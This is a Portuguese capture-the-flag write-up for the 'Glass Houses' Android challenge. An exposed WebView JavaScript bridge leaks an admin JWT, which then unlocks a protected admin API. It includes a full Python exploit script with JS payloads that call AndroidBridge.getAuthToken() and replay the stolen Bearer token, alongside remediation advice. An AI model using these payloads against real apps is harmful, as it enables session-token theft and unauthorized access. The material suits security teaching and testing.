

# Glass Houses | Fluid Attacks CTF 2026

`mobile` `android` `webview` `javascript-interface` `token-leak` `broken-access-control`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Mobile |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O app FluidRealty tem uma `WebViewActivity` com JavaScript ligado e um bridge nativo exposto: `webView.addJavascriptInterface(new AndroidBridge(this), "AndroidBridge")`. Esse bridge expõe `getAuthToken()`, que devolve o JWT de sessão (um token com `sub=admin`, `role=property_manager`). Qualquer JavaScript rodando no WebView consegue chamar `AndroidBridge.getAuthToken()` e roubar o token. O backend modela o WebView num endpoint `/api/webview/simulate`, que executa JS com o bridge disponível. Eu peço o token por lá e o apresento ao endpoint `/api/properties/admin`, que devolve as propriedades "classificadas", uma delas carregando a flag.

> [!IMPORTANT]
> **Ideia-chave:** `@JavascriptInterface` num WebView é uma ponte entre o conteúdo web (não confiável) e o código nativo (confiável). Expor `getAuthToken()` por ali entrega o token de sessão para qualquer página que o WebView carregue.

## Enunciado

> FluidRealty, a real estate app. Browse premium listings.

**Arquivos / instância:** o APK decompilado (`com.fluidrealty.app`) e um endpoint. Na minha instância o host era `87e6bb1481310f67.chal.ctf.ae`. O backend simula o WebView em `/api/webview/simulate` e expõe `/api/properties`, `/api/properties/admin`.

## Dicas progressivas

<details><summary>Dica 1</summary>A <code>WebViewActivity</code> habilita JS e registra um bridge <code>AndroidBridge</code>. O que esse bridge oferece ao JavaScript?</details>
<details><summary>Dica 2</summary><code>AndroidBridge.getAuthToken()</code> devolve o token de sessão. O WebView carrega uma URL vinda de um extra (<code>load_url</code>), então JS atacante roda com o bridge disponível.</details>
<details><summary>Dica 3</summary>Use <code>/api/webview/simulate</code> para rodar <code>AndroidBridge.getAuthToken()</code>, pegue o JWT e mande em <code>GET /api/properties/admin</code> com <code>Authorization: Bearer</code>.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (`requests`).

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=87e6bb1481310f67.chal.ctf.ae
```

Na minha instância o host era esse (o script usa a constante `TARGET_HOST`).

## Resolução

### 1. Extração dos arquivos

O `public.zip` (senha `infected`) traz o código decompilado do app. `unzip` lista mas não extrai o AES, então `7z`:

***INSERIR no terminal: Kali (atacante)

```bash
7z x -pinfected -oextracted public.zip -y && find extracted -name '*.java' -o -name '*.xml' | grep -E 'fluidrealty|network_security|Manifest'
```

```text
extracted/decompiled-src/AndroidManifest.xml
extracted/decompiled-src/com/fluidrealty/app/WebViewActivity.java
extracted/decompiled-src/com/fluidrealty/app/bridge/AndroidBridge.java
extracted/decompiled-src/com/fluidrealty/app/auth/TokenManager.java
extracted/decompiled-src/com/fluidrealty/app/network/ApiService.java
extracted/decompiled-src/res/xml/network_security_config.xml
```

Lendo as classes, duas chamam atenção de imediato: a `WebViewActivity` (que configura o WebView) e a `AndroidBridge` (o bridge nativo). A `ApiService` me dá o mapa da API.

### 2. Revisão do código: o WebView vaza o token

#### `WebViewActivity.java`

```java
settings.setJavaScriptEnabled(true);
webView.addJavascriptInterface(new AndroidBridge(this), "AndroidBridge");
String url = getIntent().getStringExtra("load_url");   // URL controlável
if (url != null) webView.loadUrl(url);
else webView.loadUrl("https://app.fluidrealty.co/mobile/home");
```

#### `bridge/AndroidBridge.java`

```java
@JavascriptInterface
public String getAuthToken() {
    return TokenManager.getInstance(context).getCurrentToken();   // devolve o JWT para o JS
}
```

Três fatos se somam: JS habilitado, um bridge nativo exposto com `getAuthToken()`, e a URL carregada vem de um extra (`load_url`), ou seja, um app atacante (ou um redirect) pode fazer o WebView carregar uma página maliciosa. Essa página chama `AndroidBridge.getAuthToken()` e exfiltra o token de sessão. O `network_security_config` ainda permite tráfego em texto puro e confia em CAs do usuário, o que piora o cenário (MITM trivial), mas não é nem preciso: o vazamento é pelo próprio bridge.

> [!TIP]
> **Conceito: WebView JavaScript Interface leak.** `addJavascriptInterface` registra um objeto Java acessível por `window.<nome>` em qualquer JS que rodar no WebView. Se o WebView carrega conteúdo não confiável (URL externa, HTTP, conteúdo de terceiros) e o objeto expõe dados sensíveis (token, device id, arquivos), esse conteúdo rouba os dados. A regra é nunca expor segredos pelo bridge e só habilitar JS/bridge para conteúdo próprio e sob HTTPS. Referência: [Android: WebView addJavascriptInterface risks](https://developer.android.com/privacy-and-security/risks/webview-unsafe-usage).

### 3. Reconhecimento: do código aos endpoints, e achar o simulador

Não precisei chutar os endpoints: a interface Retrofit `ApiService.java` lista todos:

```java
public interface ApiService {
    @GET("/api/properties")        Call<...> getProperties();
    @GET("/api/properties")        Call<...> searchProperties(@Query("city") String city);
    @GET("/api/properties/admin")  Call<...> getAdminProperties();   // <-- alvo
}
```

O `script1.py` bateu nesses endpoints reproduzindo os headers do app (`X-App-Version`, `X-Platform: android`). O público abre, o admin pede token:

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
URL: https://87e6bb1481310f67.chal.ctf.ae/api/properties
Status: 200
  "properties": [ { "price": 820000, ... }, { "price": 1200000, ... } ]

URL: https://87e6bb1481310f67.chal.ctf.ae/api/properties/admin
Status: 401
  "error": "Authentication required",
  "message": "Provide a valid Bearer token"
```

Então o alvo é `/api/properties/admin` e falta um Bearer válido. O token mora no app, atrás do `AndroidBridge.getAuthToken()`, mas eu não tenho device. A saída foi enumerar mais rotas do backend (`script2.py`/`script3.py`), e aí apareceu o `/api/webview/simulate`:

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script3.py
```

```text
URL: https://87e6bb1481310f67.chal.ctf.ae/api/webview/simulate
Status: 200
  "webview_config": { "javascript_enabled": true, "bridge": "AndroidBridge" },
  "usage": "POST { \"javascript\": \"<code>\" }"
```

Esse endpoint é o pivô: ele aceita `{"javascript": "..."}` e executa o JS com o `AndroidBridge` disponível, exatamente como o WebView do app faria. Ou seja, dá pra rodar JS "como o app" e falar com o bridge sem device nenhum.

### 4. Exploração: pegar o token e bater no admin

O exploit final roda vários snippets de JS no simulador (sendo o essencial `AndroidBridge.getAuthToken()`), coleta os tokens que aparecem nas respostas e testa cada um no `/api/properties/admin`. Script completo, idêntico ao arquivo em `scripts/`:

> [!NOTE]
> O `TARGET_HOST` está fixo no topo do script (era a minha instância). Troque pela sua antes de rodar.

#### `scripts/script5.py`

```python
#!/usr/bin/env python3
import json
import re
import sys
import hashlib
from pathlib import Path

import requests
from urllib3.exceptions import InsecureRequestWarning

# Desativa warning TLS comum em CTF.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

TARGET_HOST = "87e6bb1481310f67.chal.ctf.ae"
BASE = f"https://{TARGET_HOST}"

Path("loot").mkdir(exist_ok=True)

# Headers móveis vistos no código Android.
HEADERS = {
    "X-App-Version": "3.7.2",
    "X-Platform": "android",
    "User-Agent": "FluidRealty/3.7.2 Android WebView",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
}

FOUND_TOKENS = set()


def pretty(text):
    """
    Formata JSON se possível.
    """
    try:
        return json.dumps(json.loads(text), indent=2, ensure_ascii=False)
    except Exception:
        return text


def save(label, response):
    """
    Salva resposta completa com nome curto baseado em hash.
    """
    digest = hashlib.sha256(label.encode()).hexdigest()[:12]
    safe = re.sub(r"[^a-zA-Z0-9_.-]+", "_", label)[:70].strip("_")
    path = Path("loot") / f"script5_{safe}_{digest}.txt"

    lines = []
    lines.append(f"LABEL: {label}")
    lines.append(f"URL: {response.url}")
    lines.append(f"STATUS: {response.status_code}")
    lines.append("")
    lines.append("HEADERS:")
    for k, v in response.headers.items():
        lines.append(f"{k}: {v}")
    lines.append("")
    lines.append("BODY:")
    lines.append(pretty(response.text))

    path.write_text("\n".join(lines), encoding="utf-8")
    return path


def extract_strings(obj):
    """
    Extrai strings recursivamente de JSON para procurar token ou flag.
    """
    values = []

    if isinstance(obj, dict):
        for value in obj.values():
            values.extend(extract_strings(value))
    elif isinstance(obj, list):
        for item in obj:
            values.extend(extract_strings(item))
    elif isinstance(obj, str):
        values.append(obj)

    return values


def process_body(body):
    """
    Procura flag e tokens candidatos em qualquer corpo de resposta.
    """
    flag = re.search(r"flag\{[^}\r\n]+\}", body, re.IGNORECASE)
    if flag:
        value = flag.group(0)
        print()
        print("=" * 100)
        print("[+] FLAG ENCONTRADA")
        print("=" * 100)
        print(value)
        Path("flag.txt").write_text(value + "\n", encoding="utf-8")
        print("[+] Flag salva em flag.txt")
        sys.exit(0)

    candidates = []

    # Tokens por campos comuns.
    token_patterns = [
        r'"token"\s*:\s*"([^"]+)"',
        r'"authToken"\s*:\s*"([^"]+)"',
        r'"auth_token"\s*:\s*"([^"]+)"',
        r'"session_token"\s*:\s*"([^"]+)"',
        r'"access_token"\s*:\s*"([^"]+)"',
        r'"result"\s*:\s*"([^"]+)"',
        r'"output"\s*:\s*"([^"]+)"',
        r'"value"\s*:\s*"([^"]+)"',
        r'Bearer\s+([A-Za-z0-9._~+/=-]+)',
    ]

    for pattern in token_patterns:
        for match in re.finditer(pattern, body, re.IGNORECASE):
            candidates.append(match.group(1).strip())

    # Também tenta extrair strings de JSON inteiro.
    try:
        parsed = json.loads(body)
        candidates.extend(extract_strings(parsed))
    except Exception:
        pass

    # Filtra mensagens óbvias e guarda possíveis tokens.
    bad_words = [
        "missing",
        "usage",
        "error",
        "javascript",
        "androidbridge",
        "webview",
        "loaded",
        "status",
        "bridge",
        "methods",
        "null",
        "undefined",
        "none",
    ]

    for candidate in candidates:
        candidate = candidate.strip()

        if not candidate:
            continue

        lowered = candidate.lower()

        if any(word in lowered for word in bad_words):
            continue

        # Aceita JWT, tokens longos, ou strings com cara de segredo.
        if "." in candidate or len(candidate) >= 12:
            FOUND_TOKENS.add(candidate)


def post_js(label, javascript):
    """
    Envia JavaScript puro para /api/webview/simulate.
    """
    response = requests.post(
        BASE + "/api/webview/simulate",
        headers=HEADERS,
        json={"javascript": javascript},
        timeout=15,
        verify=False,
        allow_redirects=False,
    )

    saved = save(label, response)
    process_body(response.text)

    print()
    print("=" * 100)
    print(label)
    print("=" * 100)
    print(f"Status: {response.status_code}")
    print(f"Tamanho: {len(response.text)} bytes")
    print(f"Salvo em: {saved}")
    print()

    preview = pretty(response.text)
    if len(preview) > 2000:
        preview = preview[:2000] + "\n...[preview cortado, resposta completa salva no loot]"
    print(preview)

    return response


def test_admin_token(token):
    """
    Testa token candidato no endpoint admin real.
    """
    response = requests.get(
        BASE + "/api/properties/admin",
        headers={**HEADERS, "Authorization": f"Bearer {token}"},
        timeout=15,
        verify=False,
        allow_redirects=False,
    )

    saved = save(f"ADMIN TOKEN {token[:50]}", response)
    process_body(response.text)

    print()
    print("=" * 100)
    print(f"ADMIN TOKEN {token[:80]}")
    print("=" * 100)
    print(f"Status: {response.status_code}")
    print(f"Tamanho: {len(response.text)} bytes")
    print(f"Salvo em: {saved}")
    print()
    print(pretty(response.text))


def main():
    print("[*] Script 5: executando JavaScript diretamente no WebView simulator")
    print(f"[*] Target: {BASE}")

    # Payloads síncronos. São os mais prováveis de funcionar se o backend usa eval/execução simples.
    payloads = [
        (
            "JS getAuthToken expression",
            "AndroidBridge.getAuthToken()"
        ),
        (
            "JS getAuthToken IIFE",
            "(() => AndroidBridge.getAuthToken())()"
        ),
        (
            "JS getAuthToken return",
            "return AndroidBridge.getAuthToken();"
        ),
        (
            "JS document body token",
            "document.body.innerText = AndroidBridge.getAuthToken();"
        ),
        (
            "JS all bridge methods JSON",
            "JSON.stringify({token: AndroidBridge.getAuthToken(), device: AndroidBridge.getDeviceId(), version: AndroidBridge.getAppVersion()})"
        ),
        (
            "JS getDeviceId",
            "AndroidBridge.getDeviceId()"
        ),
        (
            "JS getAppVersion",
            "AndroidBridge.getAppVersion()"
        ),
        (
            "JS enumerate AndroidBridge",
            "JSON.stringify(Object.getOwnPropertyNames(AndroidBridge))"
        ),

        # XHR síncrono usando token da bridge contra o endpoint admin.
        (
            "JS sync XHR admin api.fluidrealty.co",
            """
            (() => {
              var token = AndroidBridge.getAuthToken();
              var xhr = new XMLHttpRequest();
              xhr.open("GET", "https://api.fluidrealty.co/api/properties/admin", false);
              xhr.setRequestHeader("Authorization", "Bearer " + token);
              xhr.send(null);
              return xhr.responseText;
            })()
            """
        ),
        (
            "JS sync XHR admin challenge host",
            f"""
            (() => {{
              var token = AndroidBridge.getAuthToken();
              var xhr = new XMLHttpRequest();
              xhr.open("GET", "{BASE}/api/properties/admin", false);
              xhr.setRequestHeader("Authorization", "Bearer " + token);
              xhr.send(null);
              return xhr.responseText;
            }})()
            """
        ),

        # Fetch assíncrono, caso o simulador suporte promise.
        (
            "JS fetch admin api.fluidrealty.co",
            """
            fetch("https://api.fluidrealty.co/api/properties/admin", {
              headers: {"Authorization": "Bearer " + AndroidBridge.getAuthToken()}
            }).then(r => r.text()).then(t => t)
            """
        ),
        (
            "JS fetch admin challenge host",
            f"""
            fetch("{BASE}/api/properties/admin", {{
              headers: {{"Authorization": "Bearer " + AndroidBridge.getAuthToken()}}
            }}).then(r => r.text()).then(t => t)
            """
        ),
    ]

    for label, javascript in payloads:
        post_js(label, javascript)

    print()
    print("=" * 100)
    print("[*] Tokens candidatos extraídos")
    print("=" * 100)

    if not FOUND_TOKENS:
        print("[-] Nenhum token extraído automaticamente.")
    else:
        for token in sorted(FOUND_TOKENS):
            print(token)

        print()
        print("=" * 100)
        print("[*] Testando tokens no endpoint admin")
        print("=" * 100)

        for token in sorted(FOUND_TOKENS):
            test_admin_token(token)

    print()
    print("=" * 100)
    print("REVISÃO")
    print("=" * 100)
    print("grep -RniE 'flag|token|result|output|admin|private|error|exception' loot/script5_*.txt")

if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script5.py
```

```text
====================================================================================================
JS getAuthToken expression
====================================================================================================
Status: 200
    "method": "getAuthToken",
    "result": "eyJhbGciOiAiSFMyNTYi...[JWT: sub=admin, role=property_manager]...NjFlMmE"

====================================================================================================
ADMIN TOKEN eyJhbGciOiAiSFMyNTYi...
====================================================================================================
Status: 200
{
  "flag": "flag{686bd660dbfXXXXX}",
  "properties": [
    { "price": 15000000, "status": "restricted", "title": "CLASSIFIED - Government Building" },
    { "price": 8500000,  "status": "restricted", "title": "CLASSIFIED - Embassy Residence" }
  ]
}
```

Decodificando o payload do JWT que o bridge devolveu: `{"sub":"admin","role":"property_manager","iss":"fluidrealty-android"}`. Ou seja, o próprio app guarda um token privilegiado e o expõe ao JS via bridge. Apresentando esse Bearer no `/api/properties/admin`, o backend devolve as propriedades restritas e a flag. (Tokens com `X-App-Version` ou outros valores aleatórios que o scanner coletou deram 403; só o JWT real passou.)

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que o token de sessão fica seguro dentro do app. Mas o WebView tem JS habilitado, carrega URL controlável e registra um bridge que expõe `getAuthToken()`. Qualquer conteúdo que rode no WebView lê o token do bridge: isso é a fronteira confiança-web/código-nativo rompida. O backend reproduz esse comportamento no endpoint `/api/webview/simulate`, que executa JS com o bridge presente, então eu extraio o JWT privilegiado sem device nenhum. Com o token, o `/api/properties/admin` é só controle de acesso satisfeito: ele confia no token, que agora é meu.

## Remediação

- Não expor dados sensíveis (tokens, credenciais) por `@JavascriptInterface`. Se o bridge precisa existir, limite-o a operações não sensíveis e só para conteúdo próprio sob HTTPS.
- Não carregar URLs arbitrárias (`load_url`) num WebView que tem bridge; validar origem contra allowlist.
- Remover `cleartextTrafficPermitted` e a confiança em CAs do usuário no `network_security_config`.

## Lições e padrões

- **Sinais para reconhecer:** `setJavaScriptEnabled(true)` + `addJavascriptInterface`, métodos `@JavascriptInterface` que retornam token/cookie/arquivo, `load_url`/deeplink controlável, `network_security_config` permissivo. Decompile e procure `addJavascriptInterface` primeiro.
- **Da próxima vez eu tentaria primeiro:** enumerar os métodos do bridge (`Object.getOwnPropertyNames`) e chamar os que soam sensíveis (`getAuthToken`, `getToken`, `readFile`), depois usar o resultado contra os endpoints `admin`/`private`.

## Referências

- [Android: Unsafe WebView usage / addJavascriptInterface](https://developer.android.com/privacy-and-security/risks/webview-unsafe-usage)
- [OWASP MASTG: Testing WebViews / JavaScript bridges](https://mas.owasp.org/MASTG/tests/android/MASVS-PLATFORM/MASTG-TEST-0032/)

## Flag

```text
flag{686bd660dbfXXXXX}
```
